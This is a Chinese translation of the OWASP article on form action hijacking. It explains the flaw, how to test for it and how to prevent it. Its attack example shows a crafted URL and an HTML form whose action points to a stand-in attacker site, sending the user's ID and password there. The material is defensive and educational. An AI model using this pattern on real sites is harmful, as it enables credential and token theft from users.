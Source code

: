 [TOC]

*最新版本 (mm/dd/yy): 09/12/2017*

翻译自[Form action hijacking](https://www.owasp.org/index.php/Form_action_hijacking "Form action hijacking")

# 概览
表单行为劫持允许攻击者通过参数指定表单的动作URL。攻击者可以构造一个URL来修改表单的动作URL以指向攻击者的服务器。表单的内容，包括跨站请求令牌，用户输入的参数值，和其他所有的内容将通过被劫持的URL被传送到攻击者。

# 如何测试表单行为劫持漏洞
检查传递给表单操作的参数值。 参见下面的例子。

# 如何防止表单操作劫持漏洞
对表单操作网址进行硬编码或使用允许的网址的白名单。

# 攻击示例
以下网址会生成一个表单，并将“url”参数设置为来自操作网址。 提交表单时，ID和密码将发送到攻击者的网站。
URL：
`https://vulnerablehost.com/?url=https://attackersite.com`
源码

```html
<form name="form1" id="form1" method="post" action="https://attackersite.com">
    <input type="text" name="id" value="user name">
    <input type="password" name="pass" value="password">
    <input type="submit" name="submit" value="Submit">
</form>
```

# 参考

- [常见的弱点枚举 - CWE-20：输入验证不正确](https://cwe.mitre.org/data/definitions/20.html "常见的弱点枚举 - CWE-20：输入验证不正确")
- [PortSwigger：表单行为劫持（反射型）](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected "PortSwigger：表单行为劫持（反射型）")
- [PortSwigger：表单行为劫持（存储型）](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored "PortSwigger：表单行为劫持（存储型）")